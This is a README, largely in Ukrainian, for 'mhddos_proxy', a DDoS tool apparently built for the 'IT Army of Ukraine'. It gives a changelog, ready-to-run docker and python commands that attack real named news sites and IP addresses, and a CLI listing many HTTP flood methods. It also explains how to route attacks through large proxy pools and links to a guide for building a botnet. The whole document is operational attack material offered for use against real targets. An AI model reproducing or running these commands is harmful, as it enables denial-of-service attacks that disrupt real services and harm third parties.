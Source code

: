 ## DDoS Tool for IT Army of Ukraine 

- Вбудована база проксі для атаки з величезної кількості IP по всьому світу
- Можливість задавати багато цілей з автоматичним балансуванням навантаження
- Безліч різноманітних DDoS методів
- Ефективне використання ресурсів завдяки асихронній архітектурі

### ⏱ Останні оновлення
  
Оновлення версії для Windows | Mac | Linux | Android | Docker: https://telegra.ph/Onovlennya-mhddos-proxy-04-16  

- **18.05.2022**
  - Додано налаштування `--copies` для запуску декількох копій (рекомендовано до використання при наявності 4+ CPU та мережі > 100 Mb/s).

- **15.05.2022**
  - Повністю оновлена асинхронна версія, що забезпечує максимальну ефективність та мінімальне навантаження на систему
  - Ефективна робота зі значно більшими значеннями параметру `-t` (до 10k) без ризику "підвісити" усю машину
  - Абсолютно новий алгоритм розподілення навантаження між цілями з метою досягнення максимальної потужності атаки
  - Додано атаки `RGET`, `RHEAD`, `RHEX` та `STOMP`.

<details>
  <summary>📜 Раніше</summary>

- **23.04.2022** 
  - Змінено прапорець `--vpn` - тепер ваш IP/VPN використовується **разом** із проксі, а не замість. Щоб досягти попередньої поведінки, використайте `--vpn 100`
- **20.04.2022**
  - Значно покращене використання ресурсів системи для ефективної атаки
  - Додано параметр `--udp-threads` для контролю потужності UDP атак (за замовчуванням 1)
- **18.04.2022** 
  - В режимі `--debug` додано статистику "усього" по всіх цілях
  - Додано більше проксі
- **13.04.2022** 
  - Додано можливість відключати цілі та додавати коментарі у файлі конфігурації - тепер рядки що починаються на символ # ігноруються
  - Виправлено проблему повного зависання скрипта після тривалої роботи та інші помилки при зміні циклу
  - Виправлено відображення кольорів на Windows (без редагування реєстру)
  - Тепер у випадку недоступності усіх цілей скрипт буде очікувати, замість повної зупинки
- **09.04.2022** Нова система проксі - тепер кожен отримує ~200 проксі для атаки з загального пулу понад 10.000. Параметри `-p` (`--period`) та `--proxy-timeout` більше не використовуються
- **04.04.2022** Додано можливість використання власного списку проксі для атаки - [інструкція](#власні-проксі)
- **03.04.2022** Виправлена помилка Too many open files (дякую, @kobzar-darmogray та @euclid-catoptrics)
- **02.04.2022** Робочі потоки більше не перезапускаються на кожен цикл, а використовуються повторно. Також виправлена робота Ctrl-C
- **01.04.2022** Оновленно метод CFB у відповідності з MHDDoS
- **31.03.2022** Додано надійні DNS сервери для резолвінгу цілі, замість системних. (1.1.1.1, 8.8.8.8 etc.)
- **29.03.2022** Додано підтримку локального файлу конфігурації (дуже дякую, @kobzar-darmogray).
- **28.03.2022** Додано табличний вивід `--table` (дуже дякую, @alexneo2003).
- **27.03.2022**
    - Дозволено запуск методів DBG, BOMB (дякую @drew-kun за PR) та KILLER для відповідності оригінальному MHDDoS.
- **26.03.2022**
    - Запуск усіх обраних атак, замість випадкового вибору
    - Зменшено використання RAM на великій кількості цілей - тепер на RAM впливає тільки параметр `-t`
    - Додане кешування DNS і корректна обробка проблем з резолвінгом
- **25.03.2022** Додано режим VPN замість проксі (прапорець `--vpn`)
- **25.03.2022** MHDDoS включено до складу репозиторію для більшого контролю над розробкою і захистом від неочікуваних 
  змін
</details>

### 💽 Встановлення | Installation - [інструкції ТУТ](/docs/installation.md)

### 🕹 Запуск | Running (наведено різні варіанти цілей)

#### Docker (для Linux додавайте sudo на початку команди)

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Python (якщо не працює - просто python або python3.10 замість python3)

    python3 runner.py https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

### 🛠 Налаштування (більше у розділі [CLI](#cli))

**Усі параметри можна комбінувати**, можна вказувати і до і після переліку цілей

Змінити навантаження - `-t XXXX` - максимальна кількість одночасно відкритих зʼєднань, за замовченням - 1000 (якщо на машині одне CPU) або 7500 (якщо більше одного).  

***Для Linux додавайте `sudo` на початку команди з `docker`***  

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy -t 3000 https://ria.ru https://tass.ru

Щоб переглянути інформацію про хід атаки, додайте прапорець `--table` для таблиці, `--debug` для тексту

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --table https://ria.ru https://tass.ru
    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --debug https://ria.ru https://tass.ru
    
Щоб атакувати цілі від https://t.me/itarmyofukraine2022 додайте параметр `--itarmy`  

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --table --itarmy

### 📌Автоматичний шукач нових проксі для mhddos_proxy
Сам скрипт та інструкції по встановленню тут: https://github.com/porthole-ascend-cinnamon/proxy_finder

### 🐳 Комьюніті
- [Детальний розбір mhddos_proxy та інструкції по встановленню](docs/installation.md)
- [Аналіз засобу mhddos_proxy](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-01)
- [Приклад запуску через docker на OpenWRT](https://youtu.be/MlL6fuDcWlI)
- [Створення ботнету з 30+ безкоштовних та автономних(працюють навіть при вимкненому ПК) Linux-серверів](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c)
- [VPN](https://auto-ddos.notion.site/VPN-5e45e0aadccc449e83fea45d56385b54)

### CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--table]
                     [--debug]
                     [--vpn]
                     [--rpc RPC] 
                     [--http-methods METHOD [METHOD ...]]
                     [--itarmy]
                     [--copies COPIES]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help            show this help message and exit
      -c, --config URL|path URL or local path to file with attack targets
      -t, --threads 2000    Total number of threads to run (default is CPU * 1000)
      --copies 1            Number of copies to run (default is 1)
      --rpc RPC             How many requests to send on a single proxy connection (default is 2000)
      --table               Print log as table
      --debug               Print log as text
      --vpn [USE_MY_IP]     Use both my IP and proxies for the attack. Optionally, specify a percent of using my IP (default is 10%)
      --http-methods        {DYN,PPS,BYPASS,OVH,TREX,NULL,GET,DOWNLOADER,CFB,RHEAD,AVB,EVEN,SLOW,STRESS,XMLRPC,RGET,HEAD,APACHE,COOKIE,STOMP,RHEX,POST} [{DYN,PPS,BYPASS,OVH,TREX,NULL,GET,DOWNLOADER,CFB,RHEAD,AVB,EVEN,SLOW,STRESS,XMLRPC,RGET,HEAD,APACHE,COOKIE,STOMP,RHEX,POST} ...]
                            List of HTTP(s) attack methods to use. Default is GET + POST|STRESS
      --proxies URL|path    URL or local path(ex. proxies.txt) to file with proxies to use 
      --itarmy              Attack targets from https://t.me/itarmyofukraine2022  
      --scheduler-initial-capacity SCHEDULER_INITIAL_CAPACITY
                            How many tasks per target to initialize on launch
      --scheduler-fork-scale SCHEDULER_FORK_SCALE
                            How many tasks to fork on successful connect to the target
      --scheduler-failure-delay SCHEDULER_FAILURE_DELAY
                            Time delay before re-launching failed tasks (seconds)
      --lang {EN,UA}        Interface and report language

### Власні проксі

#### Формат файлу:

    IP:PORT
    IP:PORT:username:password
    username:password@IP:PORT
    protocol://IP:PORT
    protocol://IP:PORT:username:password
    protocol://username:password@IP:PORT
де `protocol` може бути одним з 3-ох: http | socks4 | socks5, якщо `protocol`не вказувати, то буде обрано за замовчуванням - http  
наприклад для публічного проксі: protocol=socks4 IP=114.231.123.38 PORT=3065 формат буде таким:  
```shell
socks4://114.231.123.38:3065
```
а для приватного: protocol=socks4 IP=114.231.123.38 PORT=3065 username=isdfuser password=ashd1spass формат може бути одним з таких:  
```shell
socks4://114.231.123.38:3065:isdfuser:ashd1spass
socks4://isdfuser:ashd1spass@IP:PORT
```
  
**URL - Віддалений файл для Python та Docker**

    python3 runner.py https://tass.ru --proxies https://pastebin.com/raw/UkFWzLOt
    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://tass.ru --proxies https://pastebin.com/raw/UkFWzLOt
де https://pastebin.com/raw/UkFWzLOt - ваша веб-сторінка зі списком проксі (кожен проксі з нового рядка)  
  
**path - Для Python**  
  
Покладіть файл у папку з `runner.py` і додайте до команди наступний прапорець (замініть `proxies.txt` на ім'я свого файлу)

    python3 runner.py --proxies proxies.txt https://ria.ru

де `proxies.txt` - ваша ваш файл зі списком проксі (кожен проксі з нового рядка)

### Локалізація

На цей час програма підтримує 2 мови: англійську та українську.
У command-line за замовчуванням встановлюється українська мова, але, ймовірно, вона буде змінена, 
як тільки ми розширимо нашу спільноту на інші країни.

There are two ways to set the language:

### 1. За допомогою command-line
    python3 runner.py --lang EN https://ria.ru
    python3 runner.py --lang UA https://ria.ru

Швидше за все, саме так більшість користувачів Python будуть змінять мову. 

### 2. За допомогою environment variable
    export MHDDOS_LANG=EN
    python3 runner.py https://ria.ru

Environment variable легко передати в контейнер Docker за допомогою параметра `-e`

    docker run -e MHDDOS_LANG=UA -it --rm --log-driver none --name multidd --pull always karboduck/multidd
